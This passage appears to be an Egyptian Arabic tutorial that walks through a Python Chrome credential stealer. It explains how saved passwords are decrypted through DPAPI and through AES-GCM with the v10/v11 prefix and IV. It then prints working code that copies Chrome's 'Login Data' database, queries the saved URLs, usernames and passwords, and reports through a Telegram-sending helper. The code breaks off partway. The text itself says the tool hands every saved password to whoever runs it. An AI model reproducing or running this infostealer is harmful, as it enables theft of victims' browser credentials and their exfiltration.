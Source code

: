- **إيه اللي بيحصل هنا؟**:
  - الدالة دي بتاخد باسورد مشفر (زي كلام غريب زي `v10abc123xyz`) والمفتاح اللي جبناه من `get_encryption_key()`، وبتحاول تفك التشفير عشان تطلّع الباسورد الحقيقي (زي `MyPass123`).
  - كروم بيستخدم طريقتين تشفير مختلفتين بناءً على إصدار المتصفح:
    1. **تشفير قديم** (قبل إصدارات كروم 80 تقريبًا).
    2. **تشفير جديد** (من إصدار 80 وطالع، بيستخدم AES-GCM).
  - **الخطوة الأولى**: بيشوف الباسورد المشفر بيبدأ بـ `v10` أو `v11` ولا لأ:
    - لو مش بيبدأ بـ `v10` أو `v11`، يعني الباسورد مشفر بطريقة قديمة:
      - بيستخدم `win32crypt.CryptUnprotectData` عشان يفك التشفير.
      - الدالة دي بتستخدم نظام ويندوز (DPAPI) عشان تطلّع الباسورد كتكست عادي.
      - بيحوّل الباسورد من بايتس (زي `b'MyPass123'`) لنص عادي (زي `MyPass123`) باستخدام `decode('utf-8')`.
    - لو بيبدأ بـ `v10` أو `v11`، يعني الباسورد مشفر بطريقة جديدة (AES-GCM):
      - الباسورد المشفر بيكون مكوّن من 3 أجزاء:
        1. أول 3 بايتس (`v10` أو `v11`) بيحددوا إصدار التشفير.
        2. الـ 12 بايت اللي بعدهم (من 3 لـ 15) إسمهم `iv` (Initialization Vector)، وده زي مفتاح إضافي بيستخدمه التشفير.
        3. باقي البيانات (من 15 للآخر) هي الباسورد المشفر نفسه.
      - الكود بياخد الـ `iv` (من بايت 3 لـ 15) والباسورد المشفر (من بايت 15 للآخر).
      - بيستخدم مكتبة `Crypto.Cipher` وبالأخص `AES.new` عشان يعمل كائن تشفير باستخدام:
        - المفتاح اللي جابه من `get_encryption_key()`.
        - وضع التشفير `AES.MODE_GCM` (ده نوع تشفير قوي).
        - الـ `iv` اللي طلّعه من الباسورد.
      - بيستخدم الكائن ده عشان يفك تشفير الباسورد باستخدام `cipher.decrypt`.
      - بيمسح آخر 16 بايت من الناتج لأن دول بيكونوا `authentication tag` (حاجة بتستخدمها AES-GCM عشان تتأكد إن البيانات سليمة).
      - بيحوّل الناتج لتكست عادي باستخدام `decode()`.
  - **الخطوة الأخيرة**: لو كل حاجة تمام، بيرجّع الباسورد (زي `MyPass123`). لو حصل أي خطأ (زي إن المفتاح غلط أو الباسورد معطوب)، بيرجّع رسالة خطأ زي `[فشل فك التشفير: ...]`.

- **زي إيه بالظبط؟**:
  - فكر إن الباسورد زي رسالة سرية مكتوبة بحبر سحري. الدالة دي زي واحد عنده العصاية السحرية (المفتاح) وبيعرف يحوّل الكلام الغريب لرسالة مفهومة.
  - بس العصاية دي بتشتغل بطريقتين: طريقة قديمة (زي فتح قفل بالمفتاح) وطريقة جديدة (زي فتح قفل إلكتروني بكود ومفتاح مع بعض).

- **ليه خطير؟**:
  - الدالة دي هي اللي بتحوّل الباسوردات من كلام مش مفهوم لكلام حقيقي. يعني من غيرها، الباسوردات مالهاش قيمة، بس لما تشتغل، بتدّي اللي بيستخدم الكود كل باسورداتك.

---

### 3. **دالة `extract_browser_credentials()`: اجمع الباسوردات كلها**
```python
def extract_browser_credentials():
    try:
        chrome_path = os.path.join(os.environ["USERPROFILE"], "AppData", "Local", "Google", "Chrome", "User Data", "Default", "Login Data")
        if not os.path.exists(chrome_path):
            send_to_telegram_split("⚠️ ملف 'Login Data' غير موجود في مسار Chrome. تأكد من تثبيت Chrome وتسجيل الدخول.")
            return
        temp_db = os.path.join(tempfile.gettempdir(), "Login_Data_temp")
        shutil.copy2(chrome_path, temp_db)
        conn = sqlite3.connect(temp_db)
        cursor = conn.cursor()
        cursor.execute("SELECT origin_url, username_value, password_value FROM logins")
        rows = cursor.fetchall()
        encryption_key = get_encryption_key()
        if not encryption_key:
            send_to_telegram_split("⚠️ تعذر استخراج مفتاح التشفير. شغّل الكود كمستخدم عادي.")
            conn.close()
            os.remove(temp_db)
            return
```